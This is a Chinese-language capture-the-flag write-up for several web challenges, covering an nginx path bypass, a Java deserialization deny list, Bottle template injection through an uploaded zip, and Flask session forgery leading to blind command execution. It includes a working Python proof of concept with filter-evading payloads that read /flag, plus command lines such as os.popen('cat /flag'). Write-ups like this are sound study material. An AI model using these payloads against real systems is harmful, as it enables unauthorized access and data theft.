










## 预热赛

### 接力！TurboFlash

题目：这波 Nginx 和 Flask 好像配合得不是很好。

然后附件给了一个nginx的配置文件和python源码

python源码

```python
# pylint: disable=missing-module-docstring,missing-function-docstring

import os
from flask import Flask

app = Flask(__name__)


@app.route("/")
def index():
    return "<h1>Hello, CTFer!</h1>"


@app.route("/secret")
def secret():
    return os.getenv("LILCTF_FLAG", "LILCTF{default}")


if __name__ == "__main__":
    app.run("0.0.0.0", 8080, debug=False)

```

逻辑很简单，只要访问到/secret上就能拿到flag，但是访问了出现403

然后看看配置文件吧

```nginx
server {
    listen       80;
    server_name  localhost;

    location ~* ^/secret/?$ {
        deny all;
        return 403;
    }

    location ~* ^/secret/ {
        deny all;
        return 403;
    }

    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

写了两个路由匹配规则，且是不区分大小写的(`~*`)，特意去翻了一下nginx路由匹配规则

```nginx
＝   精确匹配               （优先级最高）
^~   精确前缀匹配            （优先级仅次于=）
~    区分大小写的正则匹配     （优先级次于^~）
~*   不区分大小写的正则匹配    （优先级次于^~）
/uri 普通前缀匹配            （优先级次于正则）
/    通用匹配               （优先级最低）
```

这里的话只要`/secret`和`/secret/`的路由都会拒绝访问，这时候就需要绕过限制路径了

在先知翻到一篇文章https://xz.aliyun.com/news/14403

其实就是用一个python处理空格的逻辑去绕过nginx的解析URL规则



这里可以看到\85和\a0都是可以被当成空白字符处理，所以直接发包时候添加就行了





最后放一个师傅图里面的绕过字符



## 正式赛

### blade_cc

一个jar包，下下来看一下，先看控制器处理逻辑

在com\n1ght\controller\IndexController中

```java
package com.n1ght.controller;

import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.annotation.route.GET;
import com.hellokaton.blade.annotation.route.POST;
import com.hellokaton.blade.mvc.http.Request;
import com.hellokaton.blade.server.NettyHttpConst;
import com.n1ght.util.N1ghtObjectInputStream;
import io.netty.buffer.ByteBuf;
import java.io.ByteArrayInputStream;
import java.io.IOException;

@Path
/* loaded from: app.jar:com/n1ght/controller/IndexController.class */
public class IndexController {
    @GET({NettyHttpConst.SLASH})
    public String index() throws Exception {
        return "index.html";
    }

    @POST({"/challenge"})
    public String challenge(Request request) throws IOException, ClassNotFoundException {
        ByteBuf body = request.body();
        byte[] bytes = new byte[body.readableBytes()];
        body.getBytes(body.readerIndex(), bytes);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        new N1ghtObjectInputStream(byteArrayInputStream).readObject();
        return "index.html";
    }
}
```

可以看到这里有一个readObject的反序列化调用，跟进一下N1ghtObjectInputStream类

```java
package com.n1ght.util;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

/* loaded from: app.jar:com/n1ght/util/N1ghtObjectInputStream.class */
public class N1ghtObjectInputStream extends ObjectInputStream {
    public N1ghtObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {"java.net.InetAddress", "sun.rmi.transport.tcp.TCPTransport", "sun.rmi.transport.tcp.TCPEndpoint", "sun.rmi.transport.LiveRef", "sun.rmi.server.UnicastServerRef", "sun.rmi.server.UnicastRemoteObject", "org.apache.commons.collections.map.TransformedMap", "org.apache.commons.collections.functors.ChainedTransformer", "org.apache.commons.collections.functors.InstantiateTransformer", "org.apache.commons.collections.map.LazyMap", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "org.apache.commons.collections.functors.ConstantTransformer", "org.apache.commons.collections.functors.MapTransformer", "org.apache.commons.collections.functors.FactoryTransformer", "org.apache.commons.collections.functors.InstantiateFactory", "org.apache.commons.collections.keyvalue.TiedMapEntry", "javax.management.BadAttributeValueExpException", "org.apache.commons.collections.map.DefaultedMap", "org.apache.commons.collections.bag.TreeBag", "org.apache.commons.collections.comparators.TransformingComparator", "org.apache.commons.collections.functors.TransformerClosure", "java.util.Hashtable", "java.util.HashMap", "java.net.URL", "com.sun.rowset.JdbcRowSetImpl", "java.security.SignedObject"};
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}
```

过滤的还是蛮多的，先看看有哪些依赖吧

分别在META-INF\maven的各个依赖的pom.properties中看一下版本信息



common-collections是用的3.2.1的，看看有没有可利用的，但是发现很多都禁了emmmm。。。

### ez_bottle

源码

```python
from bottle import route, run, template, post, request, static_file, error
import os
import zipfile
import hashlib
import time

# hint: flag in /flag , have a try

UPLOAD_DIR = os.path.join(os.path.dirname(__file__), 'uploads')
os.makedirs(UPLOAD_DIR, exist_ok=True)

STATIC_DIR = os.path.join(os.path.dirname(__file__), 'static')
MAX_FILE_SIZE = 1 * 1024 * 1024

BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals",
              "get", "open"]


def contains_blacklist(content):
    return any(black in content for black in BLACK_DICT)


def is_symlink(zipinfo):
    return (zipinfo.external_attr >> 16) & 0o170000 == 0o120000


def is_safe_path(base_dir, target_path):
    return os.path.realpath(target_path).startswith(os.path.realpath(base_dir))


@route('/')
def index():
    return static_file('index.html', root=STATIC_DIR)


@route('/static/<filename>')
def server_static(filename):
    return static_file(filename, root=STATIC_DIR)


@route('/upload')
def upload_page():
    return static_file('upload.html', root=STATIC_DIR)


@post('/upload')
def upload():
    zip_file = request.files.get('file')
    if not zip_file or not zip_file.filename.endswith('.zip'):
        return 'Invalid file. Please upload a ZIP file.'

    if len(zip_file.file.read()) > MAX_FILE_SIZE:
        return 'File size exceeds 1MB. Please upload a smaller ZIP file.'

    zip_file.file.seek(0)

    current_time = str(time.time())
    unique_string = zip_file.filename + current_time
    md5_hash = hashlib.md5(unique_string.encode()).hexdigest()
    extract_dir = os.path.join(UPLOAD_DIR, md5_hash)
    os.makedirs(extract_dir)

    zip_path = os.path.join(extract_dir, 'upload.zip')
    zip_file.save(zip_path)

    try:
        with zipfile.ZipFile(zip_path, 'r') as z:
            for file_info in z.infolist():
                if is_symlink(file_info):
                    return 'Symbolic links are not allowed.'

                real_dest_path = os.path.realpath(os.path.join(extract_dir, file_info.filename))
                if not is_safe_path(extract_dir, real_dest_path):
                    return 'Path traversal detected.'

            z.extractall(extract_dir)
    except zipfile.BadZipFile:
        return 'Invalid ZIP file.'

    files = os.listdir(extract_dir)
    files.remove('upload.zip')

    return template("文件列表: {{files}}\n访问: /view/{{md5}}/{{first_file}}",
                    files=", ".join(files), md5=md5_hash, first_file=files[0] if files else "nofile")


@route('/view/<md5>/<filename>')
def view_file(md5, filename):
    file_path = os.path.join(UPLOAD_DIR, md5, filename)
    if not os.path.exists(file_path):
        return "File not found."

    with open(file_path, 'r', encoding='utf-8') as f:
        content = f.read()

    if contains_blacklist(content):
        return "you are hacker!!!nonono!!!"

    try:
        return template(content)
    except Exception as e:
        return f"Error rendering template: {str(e)}"


@error(404)
def error404(error):
    return "bbbbbboooottle"


@error(403)
def error403(error):
    return "Forbidden: You don't have permission to access this resource."


if __name__ == '__main__':
    run(host='127.0.0.1', port=5000, debug=False)

```

这里的话其实思路很明确了，文件上传只能传zip文件，然后后端会解压这个zip文件并提取里面的文本内容并将保存的文件路径返回给用户，在`@route('/view/<md5>/<filename>')`中有一个很明显的ssti，所以我们的思路就是上传一个zip文件然后打ssti

看一下这里的黑名单

```python
BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals","get", "open"]
```

这里的话主要是在于花括号怎么绕过，后面发现bottle自己的一套模板渲染方法里面能解析`%%`这种条件语句，那直接打就行了

给一下poc吧，其实poc还是很简单的

```python
import zipfile
import requests
import io

target_url = "http://challenge.xinshi.fun:46078/upload"

payload = r"""% x= vars()['\x5f\x5fbuiltins\x5f\x5f']['\x6f\x70\x65\x6e']('/flag').read()
% f= vars()['\x5f\x5fbuiltins\x5f\x5f']['\x6f\x70\x65\x6e']('./static/flag.txt','w')
% f.write(x)
% f.flush()
"""

poc_zip = io.BytesIO()
with zipfile.ZipFile(poc_zip, mode='w',compression=zipfile.ZIP_DEFLATED) as z:
    z.writestr("poc.txt", payload) #操作内存需要writestr

poc_zip.seek(0) #将内存指针移到开头

files = {
    "file" : ("poc.zip", poc_zip, "application/zip")
}
res = requests.post(target_url, files=files)

print("响应状态码",res.status_code)
print("响应内容",res.text)
```

上传后访问一下文件渲染一下，之后访问flag.txt就行了

后面复现的时候发现还有一个做法，就是bottle中有一个include语法可以解析导入的tpl模板文件，然后我们可以写两个zip文件

```python
a.tpl
%import os
{{! os.popen('cat /flag').read() }}

b.tpl
%include('uploads/[返回路径]/a.tpl')
```

这个也是从一个师傅那边学到的，关于为什么的话我写在另一篇关于bottle的模板解析的文章里了

### Ekko_note

源码

```python
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2066/07/05 19:20:29
@Author  :   Ekko exec inc. 某牛马程序员 
'''
import os
import time
import uuid
import requests

from functools import wraps
from datetime import datetime
from secrets import token_urlsafe
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask import Flask, render_template, redirect, url_for, request, flash, session

SERVER_START_TIME = time.time()


# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)


admin_super_strong_password = token_urlsafe()
app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key-here'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(60), nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')


class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    token = db.Column(db.String(36), unique=True, nullable=False)
    used = db.Column(db.Boolean, default=False)


def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

with app.app_context():
    db.create_all()
    if not User.query.filter_by(username='admin').first():
        admin = User(
            username='admin',
            email='admin@example.com',
            password=generate_password_hash(admin_super_strong_password),
            is_admin=True
        )
        db.session.add(admin)
        db.session.commit()

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function

def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        user = User.query.get(session['user_id'])
        if not user.is_admin:
            flash('你不是admin', 'danger')
            return redirect(url_for('home'))
        return f(*args, **kwargs)
    return decorated_function

def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('date')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
@app.route('/')
def home():
    return render_template('home.html')

@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if password != confirm_password:
            flash('密码错误', 'danger')
            return redirect(url_for('register'))

        existing_user = User.query.filter_by(username=username).first()
        if existing_user:
            flash('已经存在这个用户了', 'danger')
            return redirect(url_for('register'))

        existing_email = User.query.filter_by(email=email).first()
        if existing_email:
            flash('这个邮箱已经被注册了', 'danger')
            return redirect(url_for('register'))

        hashed_password = generate_password_hash(password)
        new_user = User(username=username, email=email, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()

        flash('注册成功，请登录', 'success')
        return redirect(url_for('login'))

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')

        user = User.query.filter_by(username=username).first()
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            session['username'] = user.username
            session['is_admin'] = user.is_admin
            flash('登陆成功，欢迎!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('用户名或密码错误!', 'danger')
            return redirect(url_for('login'))

    return render_template('login.html')

@app.route('/logout')
@login_required
def logout():
    session.clear()
    flash('成功登出', 'info')
    return redirect(url_for('home'))

@app.route('/dashboard')
@login_required
def dashboard():
    return render_template('dashboard.html')

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')

@app.route('/reset_password', methods=['GET', 'POST'])
def reset_password():
    if request.method == 'POST':
        token = request.form.get('token')
        new_password = request.form.get('new_password')
        confirm_password = request.form.get('confirm_password')

        if new_password != confirm_password:
            flash('密码不匹配', 'danger')
            return redirect(url_for('reset_password'))

        reset_token = PasswordResetToken.query.filter_by(token=token, used=False).first()
        if reset_token:
            user = User.query.get(reset_token.user_id)
            user.password = generate_password_hash(new_password)
            reset_token.used = True
            db.session.commit()
            flash('成功重置密码！请重新登录', 'success')
            return redirect(url_for('login'))
        else:
            flash('无效或过期的token', 'danger')
            return redirect(url_for('reset_password'))

    return render_template('reset_password.html')

@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
    if result is None:
        flash("API死了啦，都你害的啦。", "danger")
        return redirect(url_for('dashboard'))

    if not result:
        flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
        return redirect(url_for('dashboard'))

    if request.method == 'POST':
        command = request.form.get('command')
        os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
        return redirect(url_for('execute_command'))

    return render_template('execute_command.html')

@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))

    return render_template('admin_settings.html', time_api=user.time_api)

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")

```

这里的话感觉是需要爆种子拿token的，但是一直没想到怎么去实现

先看看登录逻辑

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')

        user = User.query.filter_by(username=username).first()
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            session['username'] = user.username
            session['is_admin'] = user.is_admin
            flash('登陆成功，欢迎!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('用户名或密码错误!', 'danger')
            return redirect(url_for('login'))

    return render_template('login.html')
```

这里的话会检验session字段中的三个数值，然后我们注册一个账号并伪造admin身份



在f12中拿到session并解密一下



这里的话因为key给了，所以直接伪造admin

```bash
root@VM-16-12-ubuntu:/# flask-unsign --sign --cookie "{'user_id': 1, 'username': 'admin', 'is_admin': True}" --secret 'your-secret-key-here'
eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOnRydWV9.aKK05w.oPFkYigmBze1J713KP09DTKy03A
```

看到多了一个管理员设置，点进去看到有一个api接口

```python
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(60), nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')
```

访问一下这个时间api看看

```json
{"date":"2025-08-18 13:09:31","weekday":"星期一","timestamp":1755493771,"remark":"任何情况请联系QQ:3295320658  微信服务号:顺成网络"}
```

然后在源码中有一个检查时间api的函数

```python
def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('date')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
```

这里的话会检查time_api返回的时间，并判断是否大于2066年，然后看看这个函数的用法

```python
@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
    if result is None:
        flash("API死了啦，都你害的啦。", "danger")
        return redirect(url_for('dashboard'))

    if not result:
        flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
        return redirect(url_for('dashboard'))

    if request.method == 'POST':
        command = request.form.get('command')
        os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
        return redirect(url_for('execute_command'))

    return render_template('execute_command.html')
```

在这个可以执行命令的函数下先是检查了这个time，意思就是如果时间达到2066年才能通过这个函数去执行任意命令

然后我们看看这个路由
```python
@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))
```

这里的话可以看到time_api是可控的，那我们在自己的vps上构造一个试一下



更新成功后去执行命令页面，但是这里执行命令没有回显

```python
sleep 5
```

用一个sleep去测试一下，发现是执行了的但是没回显，但是这里可以创建static文件夹，直接打就行了

```python
mkdir static;ls>static/1.txt
```



那么直接打就行了


